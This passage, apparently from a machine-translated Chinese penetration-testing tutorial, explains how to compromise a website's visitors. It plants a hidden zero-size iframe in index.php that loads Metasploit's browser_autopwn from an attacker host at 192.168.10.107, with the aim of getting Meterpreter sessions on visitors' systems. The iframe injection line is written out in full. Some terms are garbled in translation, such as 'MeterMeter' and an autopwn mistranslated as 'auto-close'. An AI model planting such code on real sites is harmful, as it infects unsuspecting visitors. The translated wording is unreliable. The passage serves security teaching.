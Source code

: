 我们有一个 web 应用漏洞的示例网站，该漏洞允许我们上传基于 PHP 的第三方 web shell。要执行攻击，我们需要在`index.php`页面或我们选择的任何其他页面中添加以下行：

```
<iframe src="http://192.168.10.107:80/" width=0 height=0 style="hidden" frameborder=0 marginheight=0 marginwidth=0 scrolling=no></iframe> 
```

每当受害者访问网站时，前一行代码将在 iFrame 中加载恶意浏览器自动 wn。由于此代码位于`iframe`标记中，它将自动包含来自攻击者系统的浏览器自动关闭。我们需要保存此文件，并允许访问者查看网站和浏览它。

一旦受害者浏览到受感染的网站，浏览器自动关闭将在其浏览器上自动运行；但是，请确保`browser_autopwn`模块正在运行。如果没有，可以使用以下命令：

![](img/d0a36848-5ab7-4e7c-a6a8-1685ca963f2d.png)

如果一切顺利，我们将能够让 MeterMeter 在目标系统上运行。整个想法是利用目标网站吸引最大数量的受害者，并进入他们的系统。这种方法在处理白盒测试时非常方便，因为白盒测试的目标是内部 web 服务器的用户。让我们看看当受害者浏览到恶意网站时会发生什么：

![](img/871b6a25-7d7c-4dcf-accb-858c3528ace9.png)

我们可以看到对 IP`192.168.10.107`进行了调用，这是我们的浏览器 autopwn 服务器。让我们从攻击者的角度看一下视图，如下所示：
